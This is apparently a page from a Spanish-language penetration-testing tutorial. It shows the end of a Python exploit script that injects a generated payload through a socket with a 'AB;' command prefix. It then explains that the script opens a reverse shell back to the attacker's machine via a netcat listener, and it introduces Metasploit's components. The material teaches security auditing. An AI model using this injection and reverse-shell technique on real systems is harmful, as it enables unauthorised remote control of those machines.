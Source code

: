 ```python
    try:
        s.sendall((f'AB; {gen_payload(bash_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')
    
#check display any response from the server
data = s.recv(1024)
s.close()
if data != '':
    print('Exploit sent successfully!')
```

El exploit abre un socket contra la máquina objetivo que indiquemos por parámetros (`exploit.py <ip_objetivo> <puerto_objetivo> -payload <python/netcat/bash>`) y envía un payload con el objetivo de establecer una conexión reversa (reverse shell) con nuestra máquina (establecer las variables local_ip y local_port). Necesitamos colocar un "listener" sobre el puerto que hemos indicado en local_port para que la máquina objetivo establezca conexión. Si usamos netcat sería -> `nc -l -p <local_port>`. Si todo sale de manera satisfactoria, en la misma terminal donde pusimos el listener aparecerá la shell de la máquina objetivo.

_**[IMPORTANTE]**_ --> ¿Por qué existe el mismo payload en distintos lenguajes? No sabemos qué interpretes tiene instalado la máquina destino. Si no tiene instalado el interprete de python no entenderá el payload que le hemos enviado. Por esta razón hay más de uno.


# Explotación automática de vulnerabilidades
La lista de vulnerabilidades de la máquina objetivo recopiladas puede ser muy grande, realizar una explotación manual sobre todas ellas puede llegar a ser tedioso y lento. Por esta razón existen herramientas que se encargan de automatizar esta fase.

## Metasploit
Proyecto Open Source que busca ofrecer herramientas para la creación y ejecución de exploits que aprovechen las vulnerabilidades halladas en las auditorías de seguridad.

A continuación, veremos de forma breve la composición de Metasploit, sus comandos principales y la manera en que podemos utilizarlo.

### Componentes
Metasploit es considerado un framework en el que están integradas un conjunto de herramientas cada una de las cuales nos ofrece una función determinada.

| Componente | Funcionalidad |
| ------------- |-------------|
| msfvenom      | Integra `msfpayload`, que se encarga de la generación de payloads en diferentes lenguajes de programación, y la posibilidad de inyectarlos en otros archivos. También integra `msfencode`, que ofrece ofuscación a payloads.|
| msfd     | Gestor de conexiones remotas de Metasploit. Ofrece un servicio que queda a la escucha en un puerto determinado.|
| msfconsole | Componente que permite la ejecución de `módulos` mediante una interfaz de línea de comandos.|

El que más nos interesa es el último de la lista, msfconsole, ya que es el que nos va a permitir explotar las vulnerabilidades encontradas durante la auditoría.
